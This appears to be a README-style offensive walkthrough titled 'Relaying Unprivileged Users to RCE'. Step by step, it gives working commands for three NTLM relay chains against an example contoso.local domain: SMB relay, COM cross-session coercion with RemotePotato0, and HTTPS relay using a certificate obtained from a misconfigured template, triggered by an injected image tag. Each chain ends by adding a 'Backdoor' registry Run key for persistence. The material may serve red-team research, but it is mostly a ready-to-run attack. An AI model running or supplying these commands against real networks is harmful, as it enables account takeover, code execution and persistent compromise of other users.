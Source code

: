 # Relaying Unprivileged Users to RCE

## Relaying from SMB to Remote Registry

Start SMB relay server.

~~~ bash
impacket-ntlmrelayx --no-raw-server --no-wcf-server --no-rpc-server --no-http-server -smb2support -t smb://srv01.contoso.local -socks --keep-relaying
~~~

Get user to authenticate to the relay server.

Set up persistence in *HKCU*.

~~~ bash
proxychains impacket-reg -no-pass CONTOSO/USER1@srv01.contoso.local query -keyName HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -s
proxychains impacket-reg -no-pass CONTOSO/USER1@srv01.contoso.local add -keyName HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Backdoor -vt REG_SZ -vd 'cmd.exe /c calc'
~~~

## Relaying from COM Cross-session Activation to Remote Registry

Start OXID resolver.

~~~ bash
git clone --depth 1 --branch rpc-relay-server https://github.com/mrale98/impacket ./impacket-mrale98
cd ./impacket-mrale98
python3 -m venv .venv
source .venv/bin/activate
python ./examples/rpcoxidresolver.py -oip 172.30.253.1 -rip 172.30.253.1 -rport 9997
~~~

Start RPC relay server.

~~~ bash
impacket-ntlmrelayx -smb2support --no-smb-server --no-wcf-server --no-raw-server --no-http-server --rpc-port 9997 -t smb://srv02.contoso.local -socks --keep-relaying
~~~

Coerce authentication from another logon session with [RemotePotato0](https://github.com/antonioCoco/RemotePotato0).
Last three arguments don't matter because OXID resolver in RemotePotato0 is not used.

~~~ powershell
query.exe session
.\remotepotato0.exe -m 2 -s 3 -c '{354ff91b-5e49-4bdc-a8e6-1cb6c6877182}' -x 172.30.253.1 -r 1.3.3.7 -l 1338 -p 1339
~~~

Set up persistence in *HKCU*.

~~~ bash
proxychains impacket-reg -no-pass CONTOSO/USER2@srv02.contoso.local query -keyName HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -s
proxychains impacket-reg -no-pass CONTOSO/USER2@srv02.contoso.local add -keyName HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Backdoor -vt REG_SZ -vd 'cmd.exe /c calc'
~~~

## Relaying from HTTPS to Remote Registry

Obtain TGT.

~~~ bash
impacket-gettgt 'contoso.local/attacker:Password1234'
krbconf set ./attacker.ccache -K dc01.contoso.local
~~~

Create DNS record.

~~~ bash
git clone --depth 1 https://github.com/ccob/gssapi-abuse
cd ./gssapi-abuse
python3 -m venv .venv
source .venv/bin/activate
python3 ./gssapi-abuse.py --domain contoso.local dns --action add --target attacker --type A --data 172.30.253.1
~~~

Discover misconfigured certificate templates.

~~~ bash
certipy find -k -no-pass -target dc01.contoso.local -dc-only -stdout > ./certipy.txt
grep -A 23 BadWebServer ./certipy.txt
~~~

Request certificate.

~~~ bash
certipy req -k -no-pass -ca contoso-SRV01-CA -target srv01.contoso.local -template BadWebServer -dns attacker
certipy cert -pfx ./attacker.pfx -out ./attacker.key -nocert
certipy cert -pfx ./attacker.pfx -out ./attacker.pem -nokey
openssl x509 -in ./attacker.pem -text -noout | grep -A 1 'X509v3 Subject Alternative Name:'
~~~

Start HTTPS relay server.

~~~ bash
git clone --depth 1 https://github.com/coontzy1/impacket ./impacket-coontzy1
cd ./impacket-coontzy1
python3 -m venv .venv
source .venv/bin/activate
python3 ./examples/ntlmrelayx.py --no-smb-server --no-raw-server --no-wcf-server --no-rpc-server -smb2support --https --certfile ./attacker.pem --keyfile ./attacker.key --http-port 443 -t smb://srv01.contoso.local -socks --keep-relaying
~~~

Insert `<img src=https://attacker>` into target website, then wait for user to visit the site.

Set up persistence in *HKCU*.

~~~ bash
proxychains impacket-reg -no-pass CONTOSO/USER1@srv01.contoso.local query -keyName HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -s
proxychains impacket-reg -no-pass CONTOSO/USER1@srv01.contoso.local add -keyName HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Backdoor -vt REG_SZ -vd 'cmd.exe /c calc'
~~~
